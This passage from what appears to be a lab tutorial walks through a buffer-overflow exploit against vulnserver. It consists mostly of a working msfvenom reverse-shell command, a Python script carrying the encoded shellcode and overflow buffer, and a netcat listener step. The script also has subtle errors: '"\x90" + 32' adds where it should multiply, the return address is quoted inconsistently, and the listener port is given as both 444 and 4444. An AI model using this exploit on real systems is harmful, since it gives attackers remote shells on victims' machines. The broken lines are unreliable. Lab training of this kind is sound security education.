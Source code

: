 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, to generate our payload, the command will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to
**EXITFUNC:** Makes connection more stable
**-f:** for file type in this case C
**-a:** for architecture, could be x64 or x86
**-b:** for bad characters

- Paste this command into your terminal and you should get a payload

![](https://i.imgur.com/fTp8ZvG.png)

Now insert this payload into this python script replacing the value of the variable `shellcode` with the payload 

```python
#!/usr/bin/python
 
import sys, socket

overflow = ("\xbe\xa0\x7a\x1b\xf1\xdb\xdf\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x70\x12\x83\xc0\x04\x03\xd0\x74\xf9\x04\xec"
"\x61\x7f\xe6\x0c\x72\xe0\x6e\xe9\x43\x20\x14\x7a\xf3\x90"
"\x5e\x2e\xf8\x5b\x32\xda\x8b\x2e\x9b\xed\x3c\x84\xfd\xc0"
"\xbd\xb5\x3e\x43\x3e\xc4\x12\xa3\x7f\x07\x67\xa2\xb8\x7a"
"\x8a\xf6\x11\xf0\x39\xe6\x16\x4c\x82\x8d\x65\x40\x82\x72"
"\x3d\x63\xa3\x25\x35\x3a\x63\xc4\x9a\x36\x2a\xde\xff\x73"
"\xe4\x55\xcb\x08\xf7\xbf\x05\xf0\x54\xfe\xa9\x03\xa4\xc7"
"\x0e\xfc\xd3\x31\x6d\x81\xe3\x86\x0f\x5d\x61\x1c\xb7\x16"
"\xd1\xf8\x49\xfa\x84\x8b\x46\xb7\xc3\xd3\x4a\x46\x07\x68"
"\x76\xc3\xa6\xbe\xfe\x97\x8c\x1a\x5a\x43\xac\x3b\x06\x22"
"\xd1\x5b\xe9\x9b\x77\x10\x04\xcf\x05\x7b\x41\x3c\x24\x83"
"\x91\x2a\x3f\xf0\xa3\xf5\xeb\x9e\x8f\x7e\x32\x59\xef\x54"
"\x82\xf5\x0e\x57\xf3\xdc\xd4\x03\xa3\x76\xfc\x2b\x28\x86"
"\x01\xfe\xff\xd6\xad\x51\x40\x86\x0d\x02\x28\xcc\x81\x7d"
"\x48\xef\x4b\x16\xe3\x0a\x1c\xd9\x5c\x14\x41\xb1\x9e\x14"
"\x68\x1e\x16\xf2\xe0\x8e\x7e\xad\x9c\x37\xdb\x25\x3c\xb7"
"\xf1\x40\x7e\x33\xf6\xb5\x31\xb4\x73\xa5\xa6\x34\xce\x97"
"\x61\x4a\xe4\xbf\xee\xd9\x63\x3f\x78\xc2\x3b\x68\x2d\x34"
"\x32\xfc\xc3\x6f\xec\xe2\x19\xe9\xd7\xa6\xc5\xca\xd6\x27"
"\x8b\x77\xfd\x37\x55\x77\xb9\x63\x09\x2e\x17\xdd\xef\x98"
"\xd9\xb7\xb9\x77\xb0\x5f\x3f\xb4\x03\x19\x40\x91\xf5\xc5"
"\xf1\x4c\x40\xfa\x3e\x19\x44\x83\x22\xb9\xab\x5e\xe7\xd9"
"\x49\x4a\x12\x72\xd4\x1f\x9f\x1f\xe7\xca\xdc\x19\x64\xfe"
"\x9c\xdd\x74\x8b\x99\x9a\x32\x60\xd0\xb3\xd6\x86\x47\xb3"
"\xf2")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" + 32 + overflow

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

Note that the `"\x90" + 32` in `shellcode = "A" * 2003 + "\xaf\x11\x50\62" + "\x90" + 32 + overflow` is called a noop which mean **No Operation**

- Save this script on Linux machine
- Start up a netcat listener on port 444 `nc -lvnp 4444` as specified port we stated in the command used to create the payload earlier
- Now start up vulnserver on your windows machine
- Run the script we saved and you should get a MS DOS shell

![](https://i.imgur.com/j7Kr3JE.gif)


